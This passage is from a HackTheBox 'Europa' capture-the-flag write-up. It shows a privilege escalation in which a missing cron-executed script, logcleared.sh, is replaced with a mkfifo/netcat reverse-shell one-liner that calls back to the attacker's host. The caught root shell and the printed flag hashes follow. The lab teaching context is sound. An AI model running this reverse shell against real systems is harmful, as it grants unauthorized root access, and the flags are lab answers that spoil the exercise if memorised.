 Hmm? It looks like its executing some `logcleared.sh` script but the file does not exist.

Perhaps, we can write our own malicious `logcleared.sh` file? OwO

```bash
$ echo 'rm /tmp/f2;mkfifo /tmp/f2;cat /tmp/f2|/bin/sh -i 2>&1|nc 10.10.14.8 9999 >/tmp/f2' > /var/www/cmd/logcleared.sh
$ cat /var/www/cmd/logcleared.sh
rm /tmp/f2;mkfifo /tmp/f2;cat /tmp/f2|/bin/sh -i 2>&1|nc 10.10.14.8 9999 >/tmp/f2
$ chmod +x /var/www/cmd/logcleared.sh
```

>   Note: As we are currently using the variable `f` for the current user shell, we cannot reuse it. Therefore, we need to use another variable - `f2`.

Finally, we wait for the cronjob to execute in our netcat listener.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.22] 50522
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
7f19438b27578e4fcc8bef3a029af5a5
# ls /home
john
# cat /home/john/user.txt
2f8d40cc05295154a9c3452c19ddc221
```

